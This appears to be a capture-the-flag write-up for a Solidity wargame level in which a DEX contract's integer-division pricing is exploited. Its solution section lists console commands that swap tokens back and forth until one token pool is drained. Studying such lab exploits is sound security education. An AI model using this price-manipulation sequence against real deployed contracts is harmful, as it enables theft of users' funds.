

# Challenge 22



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```
Challenge 
---
> The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

> You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

> You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

> Quick note
---
> Normally, when you make a swap with an ERC20 token, you have to approve the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the approve method to the contract itself. So feel free to use contract.approve(contract.address, <uint amount>) instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the SwappableToken contract otherwise.

  Things that might help:

  - How is the price of the token calculated?
  - How does the swap method work?
  - How do you approve a transaction of an ERC20?
  - Theres more than one way to interact with a contract!
  - Remix might help
  - What does "At Address" do?


Solution
---
1. Player Holds the 10 tokens from the `token1` and `token2`. and we will get the price with `getSwapPrice`.there is no fraction types in Solidity. Instead, division rounds towards zero. Open up the terminal 

2. Vulnerability is in the `getSwapPrice` function if you take look at the function there is division operation doesn’t Calculate to the fractional integer and in solidity there is no fractional integer type. 

```
      DEX                                   Player
-------------------------------------------------------------------
token1    token2                      token1    token2
-------------------------------------------------------------------
100         100                         10        10
```
If we make swap see, We wil send 10 token.


```
      DEX                                   Player
-------------------------------------------------------------------
token1    token2                      token1    token2
-------------------------------------------------------------------
100         100                         10        10
110          90                          0        20
```

Now exchanging Token2 will give 24.44.. because our toke1 of dex contract has `110` and token2 `90` then `20 * 110 / 90 = 24.44` keep swap till the one of the token becomes 0.

now get to the point we wil get the enough amount approval 

```shell
await contract.approve(contract.address, 500)
```

set the address so we don't need to write over and over again.
```shell
token1 = await contract.token1()
token2 = await contract.token2()
```

```shell
await contract.swap(token1, token2, 10)
await contract.swap(token2, token1, 20)
await contract.swap(token1, token2, 24)
await contract.swap(token2, token1, 30)
await contract.swap(token1, token2, 41)
await contract.swap(token2, token1, 45)
```
Token 1 is drained 

```shell
await contract.balanceOf(t1, instance).then(v => v.toString())
// 0
```

Submit the instance your level will be cleared 🎉.